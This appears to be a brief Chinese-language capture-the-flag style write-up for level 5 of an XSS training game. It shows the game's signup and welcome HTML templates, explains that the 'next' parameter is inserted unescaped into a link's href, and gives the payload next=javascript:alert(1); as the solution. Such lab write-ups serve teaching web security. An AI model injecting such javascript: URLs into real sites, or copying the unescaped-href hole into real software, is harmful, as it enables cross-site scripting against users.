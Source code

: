 Signup.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

Welcome.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    Welcome! Today we are announcing the much anticipated<br><br>
    <img src="/static/logos/level5.png" /><br><br>
 
    <a href="/level5/frame/signup?next=confirm">Sign up</a> 
    for an exclusive Beta.
  </body>
</html>
```

关键代码

```html
<a href="{{ next }}">Next >></a>
```

直接讲next参数填入html，href也是可以执行JavaScript代码的

payload：

```
next=javascript:alert(1);
```
